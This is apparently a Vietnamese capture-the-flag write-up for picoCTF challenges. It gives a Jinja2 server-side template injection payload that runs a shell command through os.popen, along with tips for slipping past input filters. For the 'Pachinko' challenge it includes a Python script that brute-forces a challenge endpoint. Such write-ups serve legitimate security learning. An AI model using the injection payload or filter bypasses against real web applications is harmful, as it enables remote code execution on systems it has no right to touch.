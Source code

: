 Payload gốc là như này

```
request.application.__globals__['__builtins__']['__import__']('os').popen('cat flag').read()
```

thay `|attr` bằng dầu `.`
thay `__` bằng `('\x5f\x5f`

[Tài liệu](https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/)

## Pachinko

:::danger
CHỮA BÀI NÀO
Đọc code thì thấy có hai cách để ta đi đến FLAG
Cách 1 : theo con đường Admin
![image](https://hackmd.io/_uploads/By6DfhP2kx.png)
cách này thì hơi khó bởi ta chưa biết flag của cái nào cả
Khả năng phải giải xong chall này mới đi được cách này
Cách 2 : Theo con đường use
![image](https://hackmd.io/_uploads/rJK5M2P3kl.png)
ở cách này thì ta thấy nó check 3 giá trị 2 input và 1 output
sau đó nó lại tạo ra 4 giá trị random và 4 giá trị rev tương ứng ròi đến hàm `serializeCiruit`
![image](https://hackmd.io/_uploads/SJhW4hv3ke.png)
Nó làm cài j đấy ...
![image](https://hackmd.io/_uploads/B1s8Vnv3kx.png)
Có vẻ như nó đang trả về địa chỉ bộ nhớ
-> làm sao để mình biết đúng được địa chỉ bộ nhớ đây
1 cách duy nhất là bruitfort thoi
PAYLOAD:

```python=
import requests
import sys

burp0_url = "http://activist-birds.picoctf.net:49784/check"
burp0_headers = {
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.6099.199 Safari/537.36",
    "Content-Type": "application/json",
    "Accept": "*/*",
    "Origin": "http://activist-birds.picoctf.net:49784",
    "Referer": "http://activist-birds.picoctf.net:49784/",
    "Accept-Encoding": "gzip, deflate, br",
    "Accept-Language": "en-US,en;q=0.9",
    "Connection": "close"
}

for input1 in range(1, 11):
    for input2 in range(1, 11):
        for output in range(1, 11):
            payload = {"circuit": [{"input1": input1, "input2": input2, "output": output}]}
            response = requests.post(burp0_url, headers=burp0_headers, json=payload)
            # Check if the response contains the flag
            if "pico" in response.text:
                print(response.text)
                sys.exit()
            print(f"Sent: input1={input1}, input2={input2}, output={output} | Status: {response.status_code}")
```
